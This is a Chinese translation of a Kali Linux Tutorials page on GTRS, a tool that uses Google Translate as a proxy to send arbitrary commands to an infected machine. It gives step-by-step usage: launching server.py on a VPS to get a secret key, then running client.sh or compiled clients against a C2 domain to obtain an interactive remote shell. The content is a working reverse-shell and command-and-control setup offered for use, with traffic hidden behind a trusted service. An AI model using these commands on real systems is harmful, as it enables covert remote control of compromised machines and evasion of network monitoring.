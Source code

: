 # GTRS–谷歌翻译反向外壳 2018

> 原文：<https://kalilinuxtutorials.com/gtrs-google-translator-reverse-shell/>

GTRS tools 使用 [Google Translator](https://translate.google.com/) 作为代理向受感染的机器发送任意命令。

```
[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2]
```

## **GTRS 环境配置**

首先你需要一个 VPS 和一个域名

## **GTRS 服务器**

在 VPS 上启动 server.py

```
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```

它将为您提供将在客户端使用的密钥。

**也读作[Mcreator——编码反向外壳生成器，具有绕过 AV 的](https://kalilinuxtutorials.com/mcreator-encoded-reverse-shell-generator/)** 的技术

## **客户狂欢**

在能够访问 [Google Translator](https://translate.google.com/) 的计算机上运行客户端，提供域和服务器生成的密钥。

```
bash client.sh www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```

现在你有了一个使用命名管道文件的交互式外壳，**是的**你可以`cd`进入目录。

## **客户端运行**

您首先需要下载或编译二进制文件，然后这个过程相当于 bash 客户端，

```
./client_Linux www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```

有了这个客户端，你可以在 Linux、Mac 和 Windows 上运行它，但是客户端还没有交互式外壳。

## **视频教程**

[https://www.youtube.com/embed/02CFsE0k96E?feature=oembed](https://www.youtube.com/embed/02CFsE0k96E?feature=oembed)

[![](img/d861a9096555aeb1980fc054015933d7.png) ](https://github.com/mthbernardes/GTRS) ** *您可以在 [Linkedin](https://www.linkedin.com/company/gbhackers/) 、 [Twitter](https://twitter.com/GbhackerOn) 、[脸书](https://www.facebook.com/gbhackersadmin)上关注我们的日常网络安全更新，您还可以在线参加[最佳网络安全课程](https://ethicalhackersacademy.com/)以保持自我更新。***